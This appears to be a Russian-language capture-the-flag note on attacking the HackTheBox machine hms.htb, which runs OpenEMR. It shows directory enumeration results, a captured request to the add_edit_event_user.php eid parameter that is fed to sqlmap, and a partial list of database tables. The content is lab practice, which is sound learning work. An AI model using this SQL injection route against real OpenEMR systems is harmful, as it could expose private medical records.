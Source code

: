```
/portal (Status: 301)

/public (Status: 301)

/server-status (Status: 403)

/services (Status: 301)

/setup.php (Status: 200)

/sites (Status: 301)

/sql (Status: 301)

/templates (Status: 301)

/tests (Status: 301)

/vendor (Status: 301)

/version.php (Status: 200)
```

Теперь смотрим атаку, кажется не так сложно, верно, грабим запрос, и тестим [[sqlmap]]

Запрос из [[Burpsuit]] легко достать

```
GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1

Host: hms.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Cookie: OpenEMR=boan53s999uc0vlsvoq71u4qq8; PHPSESSID=ksm32vkbioa7obiuo9urqcs821

Upgrade-Insecure-Requests: 1
```

Находим список таблиц, нам интересна только одна, дампим её
```
Database: openemr

| array |

| groups |

| sequences |

| version |

| addresses |

| amc_misc_data |

| amendments |

```